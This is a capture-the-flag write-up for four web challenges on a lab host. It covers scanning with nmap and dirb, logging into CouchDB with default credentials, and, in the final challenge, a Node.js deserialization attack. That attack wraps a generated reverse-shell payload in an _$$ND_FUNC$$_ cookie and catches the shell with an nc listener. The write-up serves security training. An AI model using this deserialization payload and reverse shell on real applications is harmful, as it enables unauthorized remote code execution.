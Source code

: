 # CTFFriday 2020 August Week 4

* Date: 28th August 2020
* Time: 2:00 to 3:00 PM


## Overview

There were 4 challenges in this CTF related to web. CouchDB was used at the backend and we exploited Node JS deserialization to get the final flag.

## Tools Used
- BurpSuite
- Nmap
- Dirb


I started the CTF with port scanning using nmap tool.

```nmap -p- 10.8.0.14```

<kbd>![](NSCTFAUGW4/0.png)</kbd> 

## First Challenge

```
Description:

Sale team will help you to solve the first flag.

http://10.8.0.14/
```

In the challenge description, I got an URL and I visited that URL.

<kbd>![](NSCTFAUGW4/1.png)</kbd>

I also got the hint that "Sales" team will help me to get the flag so I enumerated the directories using **dirb** tool.

```dirb http://10.8.0.14/```
 
<kbd>![](NSCTFAUGW4/2.png)</kbd>

I visited the "sales" directory and I got the first flag.

<kbd>![](NSCTFAUGW4/3.png)</kbd>

*Flag : nsctf{Y0u_S0lved_Easy_fl@g!}*

## Second Challenge

```
Description:

Find out sales team's confidential details which stored on same server.
```

I clicked on "Confidential Details" button because challenge description says that I need to check confidential details.

<kbd>![](NSCTFAUGW4/4.png)</kbd>

After reading ```confidentials.txt``` file, I got the idea that **CouchDB** is used at backend and I need to login using common username and password combination. From the nmap scan we also got that port number ```5984``` is open and it is the default port of CouchDB. Now I need to find the login page. So I searched a bit regarding the default login page of CouchDB and I got that I need to visit the ```_utils``` directory.

<kbd>![](NSCTFAUGW4/5.png)</kbd>

I used  our common username and password for login. After login, I found one database named ```flag```.

<kbd>![](NSCTFAUGW4/6.png)</kbd>

 In ```permissions``` configuration of the database I got the flag.

<kbd>![](NSCTFAUGW4/7.png)</kbd>

*Flag : nsctf{S0m3_pr0+ect!0n_!5_b3tt3r_th@n_n0n3}*

## Third Challenge

```
Description:

HR Team store offer letter on vulnerable server. Its leaked by someone.
```

After that I checked the ```links``` database.

<kbd>![](NSCTFAUGW4/8.png)</kbd>

There were 4 documents in links database. Each document contains a directory link.

<kbd>![](NSCTFAUGW4/9.png)</kbd>

From the description, I got the idea that I have to look for HR directory.

<kbd>![](NSCTFAUGW4/10.png)</kbd>

So I visited the ```HR-Team/offer-letters.html```. There were 5 PDF links and I visited each link

<kbd>![](NSCTFAUGW4/11.png)</kbd>

In 4th PDF, I found the third flag.

<kbd>![](NSCTFAUGW4/12.png)</kbd>

*Flag : nsctf{Y3s_You_d!d_!+!}*

## Fourth Challenge

```
Description:

Detect the vulnerability in HR page and exploit it to get the flag!
```

From nmap scan, I found that port number 3000 is open. So I visited that port from the web browser. It was asking for username and password. I tried to login using common username and password.

<kbd>![](NSCTFAUGW4/13.png)</kbd>

After login, application was showing "Under progress" page.

<kbd>![](NSCTFAUGW4/14.png)</kbd>

I intercepted the the request of the same page and found that application is sending cookie in request. Send the request to Buro Suite repeater and observe the response. From response I came to know that it can be Node JS deserialization. So I tried to exploit this vulnerability to get Remote Code Execution.  

<kbd>![](NSCTFAUGW4/15.png)</kbd>

I used the [script](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) from github to get the reverse shell.

<kbd>![](NSCTFAUGW4/16.png)</kbd>

Run the downloaded script to generate the payload.
```python nodejsshell.py <YOUR_IP> <LISTENING_PORT>```

<kbd>![](NSCTFAUGW4/17.png)</kbd>

Put the payload between ```{"rce":"_$$ND_FUNC$$_function (){ <YOUR_PAYLOAD> }()*}```.

<kbd>![](NSCTFAUGW4/18.png)</kbd>

Encode the payload in base64.

<kbd>![](NSCTFAUGW4/19.png)</kbd>

Now refresh the same page and intercept the request.

<kbd>![](NSCTFAUGW4/20.png)</kbd>

Start the listener using  ```nc -lvp 4444``` and replace the cookie value with your encoded payload and forward the request.

<kbd>![](NSCTFAUGW4/21.png)</kbd>

You got the reverse shell!!

<kbd>![](NSCTFAUGW4/22.png)</kbd>

Now you just need to observe the flag.

<kbd>![](NSCTFAUGW4/23.png)</kbd>

*Flag : nsctf{H3y_y0u_d!d_!t}*


**Thank you for Reading.**

**Raj Gadhiya.**
